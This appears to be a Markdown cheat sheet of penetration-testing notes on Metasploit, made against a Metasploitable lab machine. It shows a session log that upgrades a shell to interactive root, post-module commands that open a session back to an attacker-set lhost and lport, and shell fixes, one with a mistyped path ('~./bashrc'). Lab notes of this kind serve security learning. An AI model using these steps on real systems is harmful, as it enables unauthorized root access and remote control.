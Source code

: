 # Metasploit

## 01 - Interactive Meta Shell

Make the Meta shell fully interactive. To make full use with other commands such as, `passwd` and `su [username]`.

```
[*] Command shell session 1 opened (10.0.2.4:34869 -> 192.168.56.106:6200 ) at 2022-03-29 03:43:52 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
root@metasploitable:/# id
id
uid=0(root) gid=0(root)
root@metasploitable:/#
```

## 02 - Post Module

```
msf > use post/multi/manage/system_session

msf post(multi/manage/system_session) > options

msf post(multi/manage/system_session) > set session <session_ID>

msf post(multi/manage/system_session) > set type <auto | ruby | python | perl | bash>

msf post(multi/manage/system_session) > set handler <false | true>

msf post(multi/manage/system_session) > set lhost <IP>

msf post(multi/manage/system_session) > set lport <PORT>

msf post(multi/manage/system_session) > run
```

## 03 - Troubleshooting

Fix backspace.

```
$ echo 'stty erase ^H' >> ~/.bashrc

$ echo 'stty erase ^H' >> ~/.zshrc
```

Reset resource file.

```
$ source ~./bashrc

$ source ~./zshrc
```